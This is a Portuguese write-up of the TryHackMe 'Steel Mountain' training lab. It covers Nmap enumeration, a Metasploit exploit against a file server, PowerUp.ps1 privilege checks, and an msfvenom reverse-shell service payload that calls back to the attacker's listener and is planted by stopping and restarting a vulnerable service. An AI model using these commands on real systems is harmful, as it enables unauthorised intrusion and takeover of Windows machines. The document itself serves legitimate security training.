

Este relatório técnico tem como finalidade registrar todas as etapas realizadas durante o lab Steel Mountain, da plataforma TryHackMe. O objetivo do lab é simular um cenário realista de intrusão em uma máquina Windows vulnerável, utilizando ferramentas como Nmap, Metasploit, PowerShell e técnicas de escalonamento de privilégios.
O desafio foi dividido em fases práticas que incluem: enumeração inicial, exploração remota com Metasploit, pós-exploração utilizando PowerShell, e escalonamento de privilégios até o nível de administrador.
A máquina-alvo representa um sistema Windows com serviços acessíveis via rede, simulando um ambiente corporativo vulnerável.
A primeira pista é visual: ao acessar o IP da máquina no navegador, é exibida uma imagem com o “Funcionário do Mês”. Ao inspecionar o código-fonte da página, é possível identificar o nome do arquivo .png, que revela o nome de usuário da máquina que vamos "atacar".
Em seguida, iniciamos a varredura de portas com o Nmap:
nmap -v -sC MACHINE_IP


Essa varredura revelou serviços ativos, entre eles um file server. A partir disso, acessamos o serviço via navegador usando MACHINE_IP:PORTA.


Após identificar o tipo de file server em execução, foi realizada uma busca no site Exploit-DB para encontrar vulnerabilidades conhecidas (CVEs). Identificamos uma vulnerabilidade aplicável e, com o auxílio do Metasploit, seguimos os passos abaixo:
msfconsole -q
search nome_do_fileserver
use exploit/windows/<caminho_do_exploit>
set RHOSTS MACHINE_IP
set RPORT PORTA_DO_FILE_SERVER
set LHOST tun0
set LPORT 4445
run
Escolhi a segunda opção, pois essa primeira é de outro CVE.

tun0 é o IP da nossa máquina, nesse caso, da VPN que usamos para acessar o lab. A porta 4445 pode ser outra, é a porta de escuta, escolhi essa por hábito.

O exploit teve sucesso e conseguimos uma sessão Meterpreter com o usuário. A partir dela, navegamos até a Desktop do usuário e encontramos a flag do usuário.

Para avançar com a elevação de privilégios, foi utilizado o script PowerUp.ps1, que auxilia na enumeração de vulnerabilidades locais, já disponibilizado na Room.
upload PowerUp.ps1
load powershell
powershell_shell
. .\PowerUp.ps1
Invoke-AllChecks

O PowerUp retornou várias informações, incluindo a identificação do serviço vulnerável.

Para explorar o serviço identificado, foi gerado um payload reverso com msfvenom com o comando disponibilizado na room:
msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
Em paralelo, precisamos deixar uma porta na escuta, nesse caso, está gerando na porta 4443, então precisaria ser:
nc -nlvp 4443
No shell, interrompemos o serviço vulnerável com:
sc stop nomeDoServiçoVulneravel

Em seguida, fizemos o upload do payload e reiniciamos o serviço:
sc start nomeDoServiçoVulneravel


Com isso, uma conexão deve ter sido feita no nc, como usuário Administrator.
Com o acesso como administrador, foi possível navegar até o diretório Desktop do Administrator e localizar a flag de root.

Esse tipo de prática é excelente para praticar o raciocínio lógico e uso de ferramentas ofensivas. Além disso, é sempre bom reforçar a importância de manter sistemas atualizados, com serviços bem configurados e usuários com permissões limitadas.